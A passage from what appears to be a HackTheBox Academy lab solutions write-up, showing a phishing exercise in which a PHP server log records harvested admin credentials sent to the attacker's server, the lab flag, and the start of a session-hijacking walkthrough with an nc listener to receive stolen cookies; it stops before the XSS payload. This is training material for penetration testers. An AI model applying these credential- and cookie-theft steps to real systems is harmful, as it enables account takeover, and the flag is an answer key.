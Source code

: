 After clicking on the "Send" button, students will notice that the PHP server has grabbed the credentials `admin:p1zd0nt57341myp455`:

```javascript
[Mon Jul 18 05:42:39 2022] 10.129.120.157:57196 Accepted
[Mon Jul 18 05:42:39 2022] 10.129.120.157:57196 [302]: GET /?username=admin&password=p1zd0nt57341myp455&submit=Login
[Mon Jul 18 05:42:39 2022] 10.129.120.157:57196 Closing
```

At last, with the harvested credentials, students need to navigate to `/phishing/login.php` and log in to find the flag:

![[HTB Solutions/CPTS/z. images/b80c2c3f57f220d303f1e4036186f7bf_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/c9f10e488947562a62f773f74f3fe220_MD5.jpg]]

Answer: `HTB{r3f13c73d_cr3d5_84ck_2_m3}`

# Session Hijacking

## Question 1

### "Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag."

After spawning the target machine, students first need to navigate to the `/hijacking` directory, `http://PWNIP/hijacking/`:

![[HTB Solutions/CPTS/z. images/5ebf6098127b406fb52fb93a6c81d9ca_MD5.jpg]]

Students then need to start an `nc` listener using a port number other than 80, since it is already in use in Pwnbox:

Code: shell

```shell
nc -nvlp PWNPO
```

```javascript
┌─[us-academy-1]─[10.10.14.55]─[htb-ac413848@pwnbox-base]─[/tmp/tmpserver]
└──╼ [★]$ nc -nvlp 8080

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
```

Thereafter, students need to test all the parameters of the web page with XSS payloads to see which of them is vulnerable and makes a call to the `nc` listener; students will find that the following payload works when provided to the "Profile Picture URL" parameter:
